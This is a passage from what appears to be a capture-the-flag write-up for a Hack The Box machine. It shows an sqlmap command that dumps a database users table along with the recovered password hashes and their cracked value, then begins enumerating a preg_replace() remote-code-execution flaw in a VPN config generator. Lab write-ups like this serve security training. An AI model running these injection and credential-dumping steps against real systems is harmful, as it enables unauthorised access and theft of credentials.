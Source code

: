     [06:58:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'
    

I’ll dump that table:

    
    
    root@kali# sqlmap -r login.request --force-ssl --batch -D admin -T users --dump
    ...[snip]...
    Database: admin
    Table: users
    [2 entries]
    +----+----------------------+--------+----------------------------------+---------------+
    | id | email                | active | password                         | username      |
    +----+----------------------+--------+----------------------------------+---------------+
    | 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
    | 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
    +----+----------------------+--------+----------------------------------+---------------+
    
    [07:00:20] [INFO] table 'admin.users' dumped to CSV file '/root/.sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
    [07:00:20] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'
    

[hashes.org](https://hashes.org/) will show this cracks to
“SuperSecretPassword!”, and now I can log in as either admin or john.

### RCE in preg_replace()

#### Enumeration

On the left side `dashboard.php`, there’s a link to “Tools” (`tools.php`).
This page has an “OpenVPN Config Generator”:

![image-20210122081803138](https://0xdfimages.gitlab.io/img/image-20210122081803138.png)

If I enter 1.2.3.4 as the IP, and then hit Generate!, the resulting page
(still `tools.php`) displays back that dummy config text, except that each
time it said “ip_address” it now has the IP 1.2.3.4:

    
    
    "openvpn": {
    "vtun0": {
    "local-address": {
    "10.10.10.1": "''"
    },
    "local-port": "1337",
    "mode": "site-to-site",
    "openvpn-option": [
    "--comp-lzo",
    "--float",
    "--ping 10",
    "--ping-restart 20",
    "--ping-timer-rem",
    "--persist-tun",
    "--persist-key",
    "--user nobody",
    "--group nogroup"
    ],
    "remote-address": "1.2.3.4",    <-- replaced
    "remote-port": "1337",
    "shared-secret-key-file": "/config/auth/secret"
    },
    "protocols": {